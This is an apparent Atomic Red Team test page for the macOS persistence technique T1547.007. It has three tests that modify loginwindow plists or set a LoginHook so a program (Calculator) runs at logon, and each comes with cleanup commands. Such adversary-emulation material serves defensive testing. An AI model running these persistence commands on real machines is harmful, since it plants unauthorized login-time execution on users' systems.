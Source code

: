 ```yaml
---
tags: [T1547_007, atomic_test]
filename: "[[T1547.007|T1547.007 - Boot or Logon Autostart Execution: Re-opened Applications]]"
---
```


# T1547.007 - Boot or Logon Autostart Execution: Re-opened Applications
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/007)
<blockquote>Adversaries may modify plist files to automatically run an application when a user logs in. When a user logs out or restarts via the macOS Graphical User Interface (GUI), a prompt is provided to the user with a checkbox to "Reopen windows when logging back in".(Citation: Re-Open windows on Mac) When selected, all applications currently open are added to a property list file named <code>com.apple.loginwindow.[UUID].plist</code> within the <code>~/Library/Preferences/ByHost</code> directory.(Citation: Methods of Mac Malware Persistence)(Citation: Wardle Persistence Chapter) Applications listed in this file are automatically reopened upon the user’s next logon.

Adversaries can establish [Persistence](https://attack.mitre.org/tactics/TA0003) by adding a malicious application path to the <code>com.apple.loginwindow.[UUID].plist</code> file to execute payloads when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications](#atomic-test-1---copy-in-loginwindowplist-for-re-opened-applications)

- [Atomic Test #2 - Re-Opened Applications using LoginHook](#atomic-test-2---re-opened-applications-using-loginhook)

- [Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications](#atomic-test-3---append-to-existing-loginwindow-for-re-opened-applications)


<br/>

## Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications
Copy in new loginwindow.plist to launch Calculator.

**Supported Platforms:** macOS


**auto_generated_guid:** 5fefd767-ef54-4ac6-84d3-751ab85e8aba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calc_plist_path | path to binary plist with entry to open calculator | path | PathToAtomicsFolder/T1547.007/src/reopen_loginwindow_calc.plist|


#### Attack Commands: Run with `sh`! 


```sh
cp #{calc_plist_path} ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```

#### Cleanup Commands:
```sh
rm -f ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```





<br/>
<br/>

## Atomic Test #2 - Re-Opened Applications using LoginHook
Mac Defaults

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CustomLogin.html)

**Supported Platforms:** macOS


**auto_generated_guid:** 5f5b71da-e03f-42e7-ac98-d63f9e0465cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script | path to script | path | /path/to/script|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo defaults write com.apple.loginwindow LoginHook #{script}
```

#### Cleanup Commands:
```sh
sudo defaults delete com.apple.loginwindow LoginHook
```





<br/>
<br/>

## Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications
Appends an entry to launch Calculator hidden loginwindow.*.plist for next login.
Note that the change may not result in the added Calculator program launching on next user login.
It may depend on which version of macOS you are running on.

**Supported Platforms:** macOS


**auto_generated_guid:** 766b6c3c-9353-4033-8b7e-38b309fa3a93





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| objc_source_path | path to objective C program | path | PathToAtomicsFolder/T1547.007/src/append_reopen_loginwindow.m|
| exe_path | path to compiled program | path | /tmp/t1547007_append_exe|


#### Attack Commands: Run with `sh`! 


```sh
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then echo "No loginwindow plist file found" && exit 1 ; fi
echo save backup copy to /tmp/
cp ${FILE} /tmp/t1547007_loginwindow-backup.plist
echo before
plutil -p ${FILE}
echo overwriting...
#{exe_path} ${FILE} && echo after && plutil -p ${FILE}
```

#### Cleanup Commands:
```sh
rm -f #{exe_path}
# revert to backup copy
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then
   exit 0
fi
mv /tmp/t1547007_loginwindow-backup.plist ${FILE}
```



#### Dependencies:  Run with `bash`!
##### Description: compile C program
##### Check Prereq Commands:
```bash
if [ -f "#{exe_path}" ]; then exit 0 ; else exit 1; fi
```
##### Get Prereq Commands:
```bash
cc #{objc_source_path} -o #{exe_path} -framework Cocoa
```




<br/>
